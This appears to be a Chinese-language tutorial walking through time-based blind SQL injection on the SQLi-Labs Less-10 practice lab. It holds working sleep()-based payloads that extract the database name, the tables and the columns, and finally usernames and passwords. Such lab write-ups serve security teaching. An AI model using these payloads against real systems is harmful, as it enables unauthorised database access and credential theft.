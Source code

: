 # 一、延时盲注概述
1. 延时盲注又称时间盲注，延时盲注只会回显一种界面，页面返回的数据包无论正确与否都只返回一种状态，按照前面所说的报错注入和布尔注入的方法无法判断出此种注入。
2. 延时盲注的判断可以使用函数sleep()，设定页面返回时间，根据页面数据返回时间是否与sleep()函数设定的时间一致，如设定sleep(5)，若页面延时5秒返回数据，则存在SQL延时盲注。
3. 延时盲注比报错注入、布尔注入更难利用，因为需要根据页面返回的延迟状态来判断攻击是否成功，通常需要耗费大量的时间
# 二、延时盲注示例——SQLi-Labs Less-10
1. 测试注入点类型，测试单双引号均无回显，and 1=1和and 1=2无不同状态，测试延时盲注，poc如下，页面成功延时5秒返回数据包，确定为延时盲注

``` SQL
?id=1" and sleep(5) --+
```

2.  测试数据库名长度，poc如下，测试得知数据库名长度为8

``` SQL
?id=1" and if(length(database())>7,sleep(5),0) --+
```

![1.png](img/SQLi/time/1.png)

3.  获取数据库名，构造poc如下，如下，对attack的结果根据response排序后即为数据库名security

``` SQL
?id=1" and if(substring(database(),1,1)='s',sleep(5),0) --+
```

![2.png](img/SQLi/time/2.png)

4.  获取数据库security中的表的数量，poc如下，经测试，security库中的表数量为4

``` SQL
?id=1" and if((select count(table_name) from information_schema.tables where table_schema=database())=4,sleep(5),0) --+
```

5.  获取security库的表的名字，poc如下

``` SQL
?id=1" and if(substring((select table_name from information_schema.tables where table_schema=database() limit 0,1),1,1)='e',sleep,0) --+
```

-   设置poc变量如下，然后点击start attack

![3.png](img/SQLi/time/3.png)

-   完成后对结果进行排序，即可获取到security库中的表名：emails、referers、uagents、users，由于导出来后表中的数据都是文本格式，需要将Payload1和Payload2修改为数值格式，然后排序才能正确排序

![4.png](img/SQLi/time/4.png)

6.  后续操作步骤除了poc不一样外，其他操作都与上述操作相同，poc如下

-   获取users表中的字段数量poc

``` SQL
?id=1" and if((select count(column_name) from information_schema.columns where table_name='users')=3,sleep(5),0) --+
```

-   获取users表的字段的值

``` SQL
?id=1" and if(substring((select column_name from information_schema.columns where table_name='users' limit 0,1),1,1)='i',sleep(5),0) --+
```

-   获取users表的username、password字段值poc

``` SQL
?id=1" and if(substring((select username from users limit 0,1),1,1)='d',sleep(5),0) --+
?id=1" and if(substring((select password from users limit 0,1),1,1)='d',sleep(5),0) --+
```